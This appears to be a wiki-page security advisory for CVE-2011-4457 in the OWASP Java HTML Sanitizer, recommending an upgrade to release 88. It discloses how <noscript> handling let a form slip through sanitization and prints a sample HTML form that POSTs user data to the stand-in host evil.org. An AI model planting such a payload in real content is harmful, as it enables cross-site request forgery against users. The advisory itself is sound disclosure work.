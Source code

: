 #summary CVE-2011-4457
#labels Security

#CVE-2011-4457

A vulnerability in the [OWASP HTML Sanitizer](http://code.google.com/p/owasp-java-html-sanitizer/)
allows redirecting or POSTing to an arbitrary URL when the user
interacts with sanitized content and when JavaScript is disabled.

It also allows inclusion of links without "[rel=nofollow](http://microformats.org/wiki/rel-nofollow)" when JavaScript is disabled.
Crawlers that respect `nofollow` and which look for links inside `<noscript>...</noscript>` could conclude a containing page has link-spam.

Due to the constrained circumstances and the fact that it does not
allow exfiltration of data protected by the same-origin policy it is
considered low risk.  For policies that allow external links, the
escalation of privilege only includes POSTing, possibly including
upload of files chosen by the user.

We recommend upgrading to [release 88](http://code.google.com/p/owasp-java-html-sanitizer/source/detail?r=88) or later available via
[downloads](http://code.google.com/p/owasp-java-html-sanitizer/downloads/list)
which does not break API compatibility with the previous release.

The project CHANGE log is available at
http://owasp-java-html-sanitizer.googlecode.com/svn/trunk/CHANGE_LOG.html

## Details 

The attack hinges on the way `<noscript>` was parsed and rendered.

```Java
<noscript>
  <form method=POST action=http://evil.org/>
    <input name=x value=y>
    <input type=submit>
  </form>
</noscript>
```

will POST `x=y` to `http://evil.org/` when the submit button is pressed
and when the user has javascript turned off as when running the NoScript extension.

The POST will carry user credentials so a vulnerable page can be used to initiate XSRF against vulnerable servers.
